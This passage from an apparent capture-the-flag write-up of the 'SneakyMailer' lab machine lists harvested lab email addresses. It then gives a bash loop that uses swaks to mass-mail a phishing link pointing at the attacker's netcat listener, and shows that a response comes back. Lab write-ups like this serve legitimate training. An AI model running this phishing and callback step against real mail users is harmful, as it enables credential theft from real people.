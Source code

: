 ```
quinnflynn@sneakymailer.htb
rhonadavidson@sneakymailer.htb
sakurayamamoto@sneakymailer.htb
sergebaldwin@sneakymailer.htb
shaddecker@sneakymailer.htb
shouitou@sneakymailer.htb
sonyafrost@sneakymailer.htb
sukiburks@sneakymailer.htb
sulcud@sneakymailer.htb
tatyanafitzpatrick@sneakymailer.htb
thorwalton@sneakymailer.htb
tigernixon@sneakymailer.htb
timothymooney@sneakymailer.htb
unitybutler@sneakymailer.htb
vivianharrell@sneakymailer.htb
yuriberry@sneakymailer.htb
zenaidafrank@sneakymailer.htb
zoritaserrano@sneakymailer.htb
```

 Now, we should see if any of those mails answer. To do so, we're using `swaks` ([website](http://www.jetmore.org/john/code/swaks/)), that is a simple SMTP test tool. We start `nc` on another shell and run this code on `mails.txt`:

```bash
# First add sneakymailer.htb to /etc/hosts
for mail in $( cat ./mails.txt); do swaks -to "$mail" -from "lolz@sneakymailer.htb" -header "Subject: Lolz" -body "http://10.10.14.224:9001"; done
```

![image-20201025212831226](/assets/sneakymailer/image-20201025212831226.png)

I cheated because I already knew the correct email ;). But anyway something is returned. Pretty CTF for my tastes, but anyway, using [this site](https://www.url-encode-decode.com/):
